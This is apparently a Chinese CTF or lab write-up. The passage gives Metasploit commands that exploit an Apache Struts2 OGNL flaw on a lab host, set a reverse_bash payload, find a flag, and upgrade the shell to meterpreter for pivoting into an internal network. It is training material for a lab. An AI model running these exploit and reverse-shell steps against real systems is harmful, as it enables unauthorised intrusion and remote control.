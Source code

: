 ```bash
# 选择漏洞模块
use [exploit/multi/http/struts2_multi_eval_ognl 的序号]

# 查看参数列表 payloads负载
show options
show payloads

# 设置合适的 参数
## 靶机 IP
set RHOSTS 192.168.182.129
## 靶机端口
set RPORT 58277

# 设置合适的 payload
set payload payload/cmd/unix/reverse_bash

# 查看设置的参数
show options

# 运行 漏洞利用程序
run -j

# 查看攻击成功后反弹 Shell 获取的会话
sessions -l

# 进入会话
sessions -i [会话 ID]

# 查看反弹 Shell 的效果（无命令行交互提示）
cd ../
search -f *flag*
#find -name *flag*

# 找到 flag
##/tmp/flag{-}
## Ctrl + Z 挂起会话
```

[![ack_1](https://asciinema.org/a/0V0X3i0sy9RGJvTRKsdTZZ6yv.svg)](https://asciinema.org/a/0V0X3i0sy9RGJvTRKsdTZZ6yv)

#### 攻击靶标2-第一层内网的 `victim-2-*`

- kaliattacker
- `meterpreter` 是 Metasploit 框架中的一个高级 payload，提供了一个强大的内存驻留 shell，允许攻击者在目标系统上执行各种命令和脚本，而不会在目标系统的硬盘上留下痕迹。它具备强大的后渗透功能，可以帮助攻击者在目标系统上进行广泛的操作。与控制台之间的通信经过加密，防止流量被拦截和分析。

1. 建立立足点，发现靶标 `victim-2-<2-4>`

```bash
# 将 cmdshell 升级到 meterpreter shell
sessions -u [shell 会话 ID]
## 或手动升级
## search meterpreter type:post
## use post/multi/manage/shell_to_meterpreter
## show options
## set lhost 192.168.182.130
## set session 1 
## run -j
## sessions -l

# 进入 meterpreter 会话
sessions -i [meterpreter 会话 ID]

# 查看网卡信息
```
